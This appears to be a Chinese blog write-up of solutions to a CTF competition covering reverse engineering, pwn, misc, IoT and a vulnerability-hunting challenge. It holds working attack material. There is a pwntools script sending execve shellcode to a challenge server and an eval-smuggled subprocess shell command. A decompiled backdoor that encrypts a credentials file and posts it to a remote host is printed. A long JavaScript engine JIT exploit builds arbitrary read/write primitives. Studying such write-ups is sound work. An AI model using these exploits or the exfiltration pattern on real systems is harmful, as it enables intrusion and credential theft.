吃虾饺咩。

<!--more-->


包含闯关赛除rhttpd，unsafevm，domaingogogo外全部题解，以及漏洞挖掘赛1题

--------------------------------------------------------------------

# Reverse 

## packpy

修改的upx，可以用这个直接修，并且脱壳

```Python
python .\upxrecoverytool.py -i D:\xxx\packpy -o D:\xxx\packpy2
```



应该是pyinstaller封的，看看能不能直接一把梭

可以，pyinstaller + pycdc

```Python
# Source Generated with Decompyle++
# File: packpy.pyc (Python 3.8)

Warning: block stack is not empty!
import base58
import zlib
import marshal

try:
    scrambled_code_string = b'X1XehTQeZCsb4WSLBJBYZMjovD1x1E5wjTHh2w3j8dDxbscVa6HLEBSUTPEMsAcerwYASTaXFsCmWb1RxBfwBd6RmyePv3AevTDUiFAvV1GB94eURvtdrpYez7dF1egrwVz3EcQjHxXrpLXs2APE4MS93sMsgMgDrTFCNwTkPba31Aa2FeCSMu151LvEpwiPq5hvaZQPaY2s4pBpH16gGDoVb9MEvLn5J4cP23rEfV7EzNXMgqLUKF82mH1v7yjVCtYQhR8RprKCCtD3bekHjBH2AwES4QythgjVetUNDRpN5gfeJ99UYbZn1oRQHVmiu1sLjpq2mMm8tTuiZgfMfsktf5Suz2w8DgRX4qBKQijnuU4Jou9hduLeudXkZ85oWx9SU7MCE6gjsvy1u57VYw33vckJU6XGGZgZvSqKGR5oQKJf8MPNZi1dF8yF9MkwDdEq59jFsRUJDv7kNwig8XiuBXvmtJPV963thXCFQWQe8XGSu7kJqeRaBX1pkkQ4goJpgTLDHR1LW7bGcZ7m13KzW5mVmJHax81XLis774FjwWpApmTVuiGC2TQr2RcyUTkhGgC8R4bQiXgCsqZMoWyafcSmjdZsHmE6WgNAqPQmEg9FyjpK5f2XC1DkzuyHan5YceeEDMxKUJgJrmNcdGxB7281EyeriyuWNJVH2rVNhio6yoG'
    exec(marshal.loads(zlib.decompress(base58.b58decode(scrambled_code_string))))
finally:
    pass
return None
```

zlib.decompress之后是pyc缺文件头，补上文件头：

```Python
import base58
import zlib
import marshal

scrambled_code_string = b'X1XehTQeZCsb4WSLBJBYZMjovD1x1E5wjTHh2w3j8dDxbscVa6HLEBSUTPEMsAcerwYASTaXFsCmWb1RxBfwBd6RmyePv3AevTDUiFAvV1GB94eURvtdrpYez7dF1egrwVz3EcQjHxXrpLXs2APE4MS93sMsgMgDrTFCNwTkPba31Aa2FeCSMu151LvEpwiPq5hvaZQPaY2s4pBpH16gGDoVb9MEvLn5J4cP23rEfV7EzNXMgqLUKF82mH1v7yjVCtYQhR8RprKCCtD3bekHjBH2AwES4QythgjVetUNDRpN5gfeJ99UYbZn1oRQHVmiu1sLjpq2mMm8tTuiZgfMfsktf5Suz2w8DgRX4qBKQijnuU4Jou9hduLeudXkZ85oWx9SU7MCE6gjsvy1u57VYw33vckJU6XGGZgZvSqKGR5oQKJf8MPNZi1dF8yF9MkwDdEq59jFsRUJDv7kNwig8XiuBXvmtJPV963thXCFQWQe8XGSu7kJqeRaBX1pkkQ4goJpgTLDHR1LW7bGcZ7m13KzW5mVmJHax81XLis774FjwWpApmTVuiGC2TQr2RcyUTkhGgC8R4bQiXgCsqZMoWyafcSmjdZsHmE6WgNAqPQmEg9FyjpK5f2XC1DkzuyHan5YceeEDMxKUJgJrmNcdGxB7281EyeriyuWNJVH2rVNhio6yoG'
a = zlib.decompress(base58.b58decode(scrambled_code_string))

HEAD = bytes.fromhex('550D0D0A000000000000000000000000')

with open('wtf.pyc', 'wb') as f:
    f.write(HEAD+a)
```

然后再pycdc

```Python
# Source Generated with Decompyle++
# File: wtf.pyc (Python 3.8)

Warning: block stack is not empty!
import random
encdata = b'\x18\xfa\xadd\xed\xab\xad\x9d\xe5\xc0\xad\xfa\xf9\x0be\xf9\xe5\xade6\xf9\xfd\x88\xf9\x9d\xe5\x9c\xe5\x9de\xc3))\x0f\xff'

def generate_key(seed_value):
    key = list(range(256))
    random.seed(seed_value)
    random.shuffle(key)
    return bytes(key)


def encrypt(data, key):
    encrypted = bytearray()
    for byte in data:
        encrypted.append(key[byte] ^ 95)
    return bytes(encrypted)


try:
    flag = input('input your flag:')
    key = generate_key(len(flag))
    data = flag.encode()
    encrypted_data = encrypt(data, key)
    if encrypted_data == encdata:
        print('good')
finally:
    pass
return None
```

写出对应的解密算法即可

```Python
# Source Generated with Decompyle++
# File: wtf.pyc (Python 3.8)

import random
encdata = b'\x18\xfa\xadd\xed\xab\xad\x9d\xe5\xc0\xad\xfa\xf9\x0be\xf9\xe5\xade6\xf9\xfd\x88\xf9\x9d\xe5\x9c\xe5\x9de\xc3))\x0f\xff'

def generate_key(seed_value):
    key = list(range(256))
    random.seed(seed_value)
    random.shuffle(key)
    return bytes(key)

def encrypt(data, key):
    encrypted = bytearray()
    for byte in data:
        encrypted.append(key[byte] ^ 95)
    return bytes(encrypted)

def decrypt(data, key):
    m = bytearray()
    inv_key = {x: i for i, x in enumerate(key)}
    for ci in data:
        m.append(inv_key[ci ^ 95])
    return bytes(m)

for seed_value in range(256):
    key = generate_key(seed_value)
    data = decrypt(encdata, key)
    print(data)
```

## ccc

python-3.10 pyd逆向

参考文章：https://bbs.kanxue.com/thread-259124.htm 对应上函数符号表

checkFlag函数：sub_6060

对应找到密文和key

```Plain
密文 = [
    223,75,84,137,140,81,0,14,224,207,10,89,135,8,150,111,
    60, 162,243,52,22,180,122,247,164,96,161,215,202,58,
    184,72,236,150,96,199,137,2,73,131,123,227,143,242,
    111,137,65, 87
]
```

并使用导出函数中的keyExpend函数生成52位的密钥

```Plain
key = [
    78, 200,117,86, 215,190,169,72,184,158,163,199,194,241,60,46
]
keyExpend = [
20168, 30038, 55230, 43336, 47262, 41927, 49905, 15406, 44463, 32082, 37233, 15687, 36741, 57976, 23709, 37098, 42274, 57978, 36639, 3012, 61625, 15137, 54619, 24314, 62750, 15895, 35297, 29302, 17322, 46781, 62794, 17860, 12051, 49892, 60551, 21869, 31722, 38027, 35306, 15484, 51673, 3754, 56055, 54569, 5907, 54392, 63582, 10117, 21941, 61354, 21038, 10152
]
```

根据func3——sub_3BA0确定加密形状，伪代码如下

```Java
每次加密8位，8个byte分成4组，每组2bytes，下简称a1234
8轮：
t1 = a1 *  keyExpend[i*6 +0]%0x10001
t2 = a2 + keyExpend[i*6 +1]
t3 = a3 + keyExpend[i*6 +2]
t4 = a4 * keyExpend[i*6 +3]%0x10001
t5 = t1 ^ t3
t6 = t2 ^ t4
t8 = t5 * keyExpend[i*6 +4]%0x10001
t9 = t8 + t6
t10 = t9 * keyExpend[i*6 +5]%0x10001
t11 = t8 + t10
t12 = t1 ^ t10
t13 = t4 ^ t11
t14 = t2 ^ t11
t15 = t3 ^ t10
a1 = t12
a2 = t15
a3 = t14
a4 = t13
最后一轮：
a1 *= keyExpend[12*4+0]%0x10001
a2 += keyExpend[12*4+1]
a3 += keyExpend[12*4+2]
a4 *= keyExpend[12*4+3]%0x10001
```

8字节分组，keyexpand长度52，key长度16字节，算法中mod 0x10001，再看看其他细节，大致就是一个IDEA

exp：

```Java
// https://github.com/razvanalex/IDEA-encryption-algorithm
#include <stdio.h>
#include <string.h>

typedef __uint32_t uint32_t;
typedef __int32_t int32_t;
typedef __uint16_t uint16_t;
typedef void (*idea_gen_key)(uint16_t[52], uint16_t[8]);

uint16_t mulMod65537(uint16_t a, uint16_t b) {
  uint32_t c;
  uint16_t hi, lo;

  if (a == 0)
    return -b + 1;
  if (b == 0)
    return -a + 1;

  c = (uint32_t)a * (uint32_t)b;
  hi = c >> 16;
  lo = c;

  if (lo > hi)
    return lo - hi;
  return lo - hi + 1;
}

int modInverse(int a, int m) {
  int m0 = m, t, q;
  int x0 = 0, x1 = 1;

  if (m == 1)
    return 0;

  while (a > 1) {
    // q is quotient
    q = a / m;
    t = m;

    // m is remainder now, process same as
    // Euclid's algo
    m = a % m;
    a = t;

    t = x0;
    x0 = x1 - q * x0;
    x1 = t;
  }

  // Make x1 positive
  if (x1 < 0)
    x1 += m0;

  return x1;
}

void encrypt(uint16_t subKey[52], uint16_t key[8]) {
  int i;

  // Generate encryption keys
  for (i = 0; i < 52; i++) {
    if (i < 8)
      subKey[i] = key[i];
    else if (i % 8 == 6)
      subKey[i] = (subKey[i - 7] << 9) | (subKey[i - 14] >> 7);
    else if (i % 8 == 7)
      subKey[i] = (subKey[i - 15] << 9) | (subKey[i - 14] >> 7);
    else
      subKey[i] = (subKey[i - 7] << 9) | (subKey[i - 6] >> 7);
  }
}

void decrypt(uint16_t subKey[52], uint16_t key[8]) {
  int i;
  uint16_t K[52];

  // Compute encryption keys
  encrypt(K, key);

  // Generate dencryption keys
  subKey[0] = modInverse(K[48], 65537);
  subKey[1] = -K[49];
  subKey[2] = -K[50];
  subKey[3] = modInverse(K[51], 65537);

  printf("Keys: %04X %04X %04X %04X\n", subKey[0], subKey[1], subKey[2],
         subKey[3]);

  for (i = 4; i < 52; i += 6) {
    subKey[i + 0] = K[52 - i - 2];
    subKey[i + 1] = K[52 - i - 1];

    subKey[i + 2] = modInverse(K[52 - i - 6], 65537);
    if (i == 46) {
      subKey[i + 3] = -K[52 - i - 5];
      subKey[i + 4] = -K[52 - i - 4];
    } else {
      subKey[i + 3] = -K[52 - i - 4];
      subKey[i + 4] = -K[52 - i - 5];
    }
    subKey[i + 5] = modInverse(K[52 - i - 3], 65537);

    printf("Keys: %04X %04X %04X %04X %04X %04X\n", subKey[i], subKey[i + 1],
           subKey[i + 2], subKey[i + 3], subKey[i + 4], subKey[i + 5]);
  }
}

void IDEA(uint16_t data[4], uint16_t key[8], idea_gen_key func) {
  int i;
  uint16_t subKey[52];

  // Generate keys
  func(subKey, key);

  uint16_t X0 = data[0];
  uint16_t X1 = data[1];
  uint16_t X2 = data[2];
  uint16_t X3 = data[3];
  uint16_t tmp1, tmp2;

  // Apply 8 rounds
  for (i = 0; i < 8; i++) {
    printf("%d:   %04X %04X %04X %04X\n", i, X0, X1, X2, X3);

    X0 = mulMod65537(X0, subKey[6 * i + 0]);  // Step 1
    X1 += subKey[6 * i + 1];                  // Step 2
    X2 += subKey[6 * i + 2];                  // Step 3
    X3 = mulMod65537(X3, subKey[6 * i + 3]);  // Step 4

    tmp1 = X0 ^ X2;  // Step 5
    tmp2 = X1 ^ X3;  // Step 6

    tmp1 = mulMod65537(tmp1, subKey[6 * i + 4]);  // Step 7
    tmp2 += tmp1;                                 // Step 8
    tmp2 = mulMod65537(tmp2, subKey[6 * i + 5]);  // Step 9
    tmp1 += tmp2;                                 // Step 10

    X0 ^= tmp2;
    X1 ^= tmp1;
    X2 ^= tmp2;
    X3 ^= tmp1;

    // Swap X1 and X2
    tmp1 = X1;
    X1 = X2;
    X2 = tmp1;
  }

  tmp1 = X1;
  tmp2 = X2;

  // Apply the half round
  data[0] = mulMod65537(X0, subKey[6 * i + 0]);
  data[1] = tmp2 + subKey[6 * i + 1];
  data[2] = tmp1 + subKey[6 * i + 2];
  data[3] = mulMod65537(X3, subKey[6 * i + 3]);
}

uint16_t binToInt(char* str) {
  int i;
  uint16_t size = strlen(str);
  uint16_t result = 0;
  uint16_t pow = 1;

  for (i = size - 1; i >= 0; i--) {
    if (str[i] == '1')
      result += pow;
    pow *= 2;
  }

  return result;
}

void convertStringToBin(char* str, uint16_t* data, uint16_t size) {
  int i, j = 0;
  int sizeBlock = sizeof(uint16_t) * 8;
  char block[sizeBlock + 1];

  for (i = 0; i < strlen(str) && i < size * sizeof(uint16_t);
       i += sizeof(uint16_t)) {
    strncpy(block, str, sizeBlock);
    block[sizeBlock] = '\0';

    data[j++] = binToInt(block);
    str += sizeBlock;
  }
}

int main() {
  char Data[] =
      "110111110100101101010100100010011000110001010001000000000000111011100000110011110000101001011001100001110000100010010110011011110011110010100010111100110011010000010110101101000111101011110111101001000110000010100001110101111100101000111010101110000100100011101100100101100110000011000111100010010000001001001001100000110111101111100011100011111111001001101111100010010100000101010111";
  char Key[128] = "01001110110010000111010101010110110101111011111010101001010010001011100010011110101000111100011111000010111100010011110000101110";

  uint16_t data[4*6];
  uint16_t key[8];

  convertStringToBin(Data, data, 4*6);
  convertStringToBin(Key, key, 8);
  for(int i=0;i<8;i++){
  printf("%x",key[i]);
  }

  // Print initial data
  printf("Initial data:   %04X %04X %04X %04X\n", data[0], data[1], data[2],
         data[3]);

  // Encrypt data
 // IDEA(data, key, encrypt);
 // printf("Encrypted data: %04X %04X %04X %04X\n", data[0], data[1], data[2],
   //      data[3]);

  // Decrypt data
  for(int i=0;i<6;i++) IDEA(data+4*i, key, decrypt);
  for(int i=0;i<24;i++) printf("%02x",data[i]);

  return 0;
}
```

flag{c620aafa-a72b-d11f-2a9d-334d595bb4a7}

## jvm

简单题，Quick js 参考 https://bbs.kanxue.com/thread-258985.htm

里面嵌套了一个VM，一眼流加密，buf存储加密后的数据

将

```Go
        get_var print
        push_atom_value error
        call1 1
```

改成打印buf

```Go
       get_var print
        get_var buf
        call1 1
```

跑一遍，将数据三者xor即可

```Go
>>> dest = [118,137,196,160,121,117,55,150,46,174,207,7,210,130,194,153,82,79,213,180,96,251,210,102,78,84,78]
>>> cipher = [32,213,149,247,50,47,116,149,112,249,206,89,213,222,155,194,81,18,212,246,96,190,150,51,12,69,3]
>>> src = b'0'*27
>>> for i in range(27):
...     print(chr(dest[i]^cipher[i]^src[i]),end='')
...
flag{js3ng1n7lik3m1r0uter!}>>>
```

flag{js3ng1n7lik3m1r0uter!}

# Pwn

## fshell

简单的构造

```Python
from pwn import *

context.log_level = 'debug'
context.arch = 'i386'

# io = process("./main")
io = remote("pwn-036c0f8d2f.challenge.xctf.org.cn", 9999, ssl=True)

# 0x68732f6e69622f
shellcode = (asm(
"""
mov eax, 0x4b282f
mov edx, eax
dec ebx
dec ebx
mov eax, 0x1d4b00
dec ebx
dec ebx
add eax, edx
dec ebx
dec ebx
push eax

mov eax, 0x6e1e4b2f
dec ebx
dec ebx
mov edx, eax
dec ebx
dec ebx
mov eax, 0x004b1700
add eax, edx
dec ebx

push eax
dec ebx
dec ebx
dec ebx

mov ecx, esp
dec ebx
dec ebx

xor edx, edx
dec ebx
dec ebx

mov eax, ecx
dec ebx
dec ebx

xor ecx, ecx
dec ebx
dec ebx

inc eax
inc eax
dec ebx
dec ebx

inc eax
inc eax
dec ebx
dec ebx

mov ebx, eax
dec ebx
dec ebx

push 0xb
dec ebx
dec ebx

pop eax
int 0x80
dec ebx

"""))

"""
"""

log.hexdump(shellcode)
print(f"{len(shellcode)=:#x}")
assert len(shellcode) <= 0x58
import tqdm
for xxt in tqdm.tqdm(range(0, 12)):
    xx = 12 * ((xxt % 12) + 5)
    ans = []
    for i in range(0, len(shellcode), 4):
        tmp = shellcode[i:i+4]
        tmp = struct.unpack("<f", tmp)[0]
        target = int(tmp * xx)
        check = struct.pack("<f", target / xx)
        ans.append(target)
        if check != shellcode[i:i+4]:
            break
    else:
        print(f"Found !! {xxt} {ans}")
        assert all(map(lambda x: x < 2**31, ans))
        break

io.sendlineafter(b"@@", b"1")
io.sendlineafter(b"Enter username: ", b"user")

# io.sendlineafter(b"Enter password: ", b"password")
io.sendlineafter(b"Enter password: ", bytearray(map(lambda x: ((x - 9 - 97) + 26) % 26 + 97, bytearray(b"xiaaewzl"))))

io.sendlineafter(b"@@", b"6")
io.sendlineafter(b"@@", b"3")
io.sendlineafter(b"Enter the offset: ", b"0")

# gdb.attach(io, api=True, gdbscript=
# """
# # b *0x0804A18D 
# b *0x804A209
# # b *0x804A1E8
# c   
# """)

io.sendlineafter(b"Enter a string to decrypt: ", b"a"*20)
tob = lambda x: str(x).encode()
for an in ans:
    io.sendline(tob(an))

io.sendline(b"-")

io.interactive()
```

# Misc

## 两极反转

三个大的定位点之间的东西看起来都是对的

中间的看起来不对，又看正好少了左下定位符，那就根据提示反转中间的七个

修出来就是flag



## WHAT_CAN_I_SAY

builtins都能用，那直接eval(bytes.fromhex ...

然后构造点shell命令让三个输出一样就行了，这里选择用py解析：

```Python
from Crypto.Util.number import bytes_to_long

code='''
eval(bytes.fromhex(hex(
....
)[2:]).decode())
print(open(str(2)).read()[:-1])
exit()
what.can.i.say

<EOF>
'''

r = bytes_to_long(b"""__import__('subprocess').check_output("cp ru*/_r* 1;head -n -5 1 > x.py ; python3 -c 'from x import code;print(code[:-1])' > 2 ; cat 2 1>&2;",shell=True)""")
print(len(hex(r)))
print(hex(r))
```

## SPY2.0

希望本题出题人以后不要再出题了

USB流量，还塞了一堆出题人做的其他比赛的misc，一开始不知道，浪费了不少时间，最后发现是**垃圾工具题**

1753 结尾有 IEND，对上描述的 png，1585 是 PNG 头所在处

https://github.com/g4ngli0s/CTF/blob/master/AlexCTF2017/Fore3_usb_probing.md

```Python
tshark -r attach.pcapng -Y 'usb.capdata and usb.src==2.4.127' -T fields -e usb.capdata > raw
```

https://www.peter-eigenschink.at/projects/steganographyjs/showcase/



## 真假补丁

流量导出一个补丁，还有一个后门通信

data=d7DxBWeC1sSz5LY3colz2jpYCYgRdwfNFKcy1LIs%2F5RCocrzCD7bN9Do95e8AJvT%2Bxp5YgHNrilph3JfBZenoUzY5saQYer85vqow1reJBsR4Kv2dDNdlXrUFe8blY7t

补丁.exe是自解压壳，7z脱出两个exe：补丁检测和补丁修复

不知道有没有用，传个沙箱先 https://s.threatbook.com/report/file/300c4838bd5db405245d9a27d25d9391161c25a3df65691f3b72c3a1f51c1924

发现这俩都是Nuitka打包的python程序，把资源段的字节码拿出来：



补丁检测的内容很正常，但补丁修复是后门 

py字节码逆向：

```Java
.bytecode������.�d��[�T�D�l����l���l����Z�Zf�������?f�������u�c�a__module__�a__class__�a__name__�a__package__�a__metaclass__�a__abstractmethods__�a__closure__�a__dict__�a__doc__�a__file__�a__path__�a__enter__�a__exit__�a__builtins__�a__all__�a__init__�a__cmp__�a__iter__�a__loader__�a__compiled__�a__nuitka__�ainspect�acompile�arange�aopen�asuper�asum�aformat�a__import__�abytearray�astaticmethod�aclassmethod�akeys�aname�aglobals�alocals�afromlist�alevel�aread�arb�w/w\apath�abasename�adirname�aabspath�aisabs�aexists�aisdir�aisfile�alistdir�agetattr�a__cached__�aprint�aend�afile�abytes�w.w_asend�athrow�aclose�asite�atype�alen�arepr�aint�aiter�a__spec__�a_initializing�aparent�atypes�a__main__�a__class_getitem__�areconfigure�aencoding�aline_buffering�afileno�uC:\Users\admin\AppData\Local\Programs\Python\Python38\python.exe�uC:\Users\admin\AppData\Local\Programs\Python\Python38�.__main__�$��G�ahashlib�amd5�arb�a__enter__�a__exit__�u<lambda>�uget_file_md5.<locals>.<lambda>�c�ahash_md5�aupdate�Tnnnahexdigest�wfaread�Tl���aBS�aAES_SECRET_KEY�akey�aAES�aMODE_CBC�amode�anew�aencode�Tautf8�aIV�aencrypt�apad�autf8�aciphertext�abase64�ab64encode�adecode�Tuutf-8�a__doc__�uC:\Users\admin\Desktop\demo\补丁修复.py�a__file__�a__cached__�a__annotations__�l����a
requests�uCrypto.Cipher�TaAES�aget_file_md5�Tu./补丁检测.exe�affe01db6b79092b8�a__main__�a__module__�aAES_ENCRYPT�a__qualname__�a__init__�uAES_ENCRYPT.__init__�uAES_ENCRYPT.encrypt�T�aaes_encrypt�uC:\Users\admin\Desktop\用户名密码.txt�afile�atext�weadata�apost�uhttp://192.168.59.1:8086/data.php�l
���Taurl�adata�atimeout�aresponse�aprint�TwfTwsu<module>�Taself�Taself�atext�acryptor�Tafilename�ahash_md5�wfachunk�.�
```

字节码里的逻辑是 key = get_file_md5('补丁检测.exe') 

那解密一下就有flag的base64了

```Java
import hashlib
from Crypto.Cipher import AES
import base64


def decrypt(key, data):
    cipher = AES.new(key, AES.MODE_CBC)
    return cipher.decrypt(data)

get_file_md5 = lambda f: hashlib.md5(open(f, 'rb').read()).hexdigest()

def main():
    key = get_file_md5('补丁检测.exe').encode()
    data = base64.b64decode(b'd7DxBWeC1sSz5LY3colz2jpYCYgRdwfNFKcy1LIs/5RCocrzCD7bN9Do95e8AJvT+xp5YgHNrilph3JfBZenoUzY5saQYer85vqow1reJBsR4Kv2dDNdlXrUFe8blY7t')
    decrypted = decrypt(key, data)
    print(decrypted)

main()
```

# IOT

## special

固件修复文件头，然后用binwalk解



/etc/config.dat有点问题



原来是内存文件，H3r0s1mpl3，出了

flag{0e327444a0ef9a1819c341f396d97b18}

# PWN-漏洞挖掘

## optimizer

宝，下次买题记得验一下是不是抄的。

```JavaScript
let hex = (val) => '0x' + val.toString(16);

function foo() {
    return [
        1.0,
        1.95538254221075331056310651818E-246,
        1.95606125582421466942709801013E-246,
        1.99957147195425773436923756715E-246,
        1.95337673326740932133292175341E-246,
        2.63486047652296056448306022844E-284];
}
for (let i = 0; i < 0x100000; i++) {
    foo(); foo(); foo(); foo(); foo(); foo(); foo(); foo(); foo(); foo();
}

function gc() {
    for (let i = 0; i < 0x10; i++) new ArrayBuffer(0x1000000);
}

function print(msg) {
    console.log(msg);
}

function js_heap_defragment() { 
    gc();
    for (let i = 0; i < 0x1000; i++) new ArrayBuffer(0x10);
    for (let i = 0; i < 0x1000; i++) new Uint32Array(1);
}

const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

function ftoi(val) { 
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); 
}

function itof(val) { 
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
    return __f64_buf[0];
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
    console.assert(x);
}

function f(x, y)
{
    var s = y["length"];

    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);
    y.push(1.1);
    x.push(1.1);

    s += y["length"];
    return s;
}

var a = [1.1, 2.2, 3.3, 4.4];
for(let i = 0; i < 2000; i++) {
    a = [1.1, 2.2, 3.3, 4.4];
    f(a, a);
}

var buf = new ArrayBuffer(0x100);
js_heap_defragment();

var boxed = [{}, {}, {}, 13.37];

var b = [1.1, 2.2, 3.3, 4.4];

f(b, b);

var c = new Uint32Array(buf);
c.a = boxed;

c[0] = 0x41414141;
c[1] = 0x42424242;
c[2] = 0x43434343;
c[3] = 0x44444444;

b[28] = itof(0x00000041n);

heap_ptr = ftoi(b[29]);
print("[*] heap ptr: " + hex(heap_ptr));

var properties = Number((ftoi(b[23]) >> 32n) - 1n);
print("[*] properties: " + hex(properties));

function arb_read32(addr) {
    b[29] = itof(addr);
    return c[0];
}

function arb_write32(addr, val) {
    b[29] = itof(addr);
    c[0] = val;
}
heap_base = heap_ptr & 0xfffffff00000n;
js_heap = BigInt(arb_read32(heap_base +4n));
js_heap <<= 32n;
print("[*] js heap: " + hex(js_heap));

print("[*] properties: " + hex(js_heap + BigInt(properties + 8)));
boxed_arr_addr = arb_read32(js_heap + BigInt(properties + 8)) - 1;
boxed_arr_addr = BigInt(boxed_arr_addr) + js_heap;

print("[*] boxed_arr_addr: " + hex(boxed_arr_addr));
boxed_elements = arb_read32(boxed_arr_addr + 0x8n) - 1;
boxed_elements = BigInt(boxed_elements) + js_heap;
